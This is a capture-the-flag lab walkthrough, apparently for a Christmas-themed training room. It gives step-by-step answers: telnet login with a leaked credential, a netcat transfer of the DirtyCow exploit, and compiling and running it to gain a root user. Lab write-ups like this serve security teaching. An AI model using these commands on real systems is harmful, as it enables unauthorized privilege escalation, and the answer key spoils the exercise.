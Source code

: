 # Coal for Christmas

- Hi Santa, hop in your sleigh and deploy this machine!

	  no answer needed

- nmap <TARGET_IP>

	  no answer needed

	- `nmap <TARGET_IP>`

- What old, deprecated protocol and service is running?

	- `telnet`

- What credential was left for you?

	- `telnet <TARGET_IP> 23`
	- `clauschristmas`

- What distribution of Linux and version number is this server running?

	- `uname -a`
	- `Ubuntu 12.04`

- Who got here first?

	- `cat cookies_and_milk.txt`
	- `grinch`

- This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!

	  no answer needed

	- [dirtycow](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
	- On your machine `nc -lnvp 4444 < dirty.c`
	- On target `nc -w 3 <YOUR_IP> 4444 > dirty.c`
	
- What is the verbatim syntax you can use to compile, taken from the real C source code comments?

	- `gcc -pthread dirty.c -o dirty -lcrypt`

- Run the commands to compile the exploit, and run it.
What "new" username was created, with the default operations of the real C source code?

	- `./dirty` and then enter the password you've chosen
	- `firefart`

- What is the MD5 hash output?

	- `cat message_from_the_grinch.txt`
	- `touch coal`
	- `tree | md5sum`
	- `********************************`




### see you ...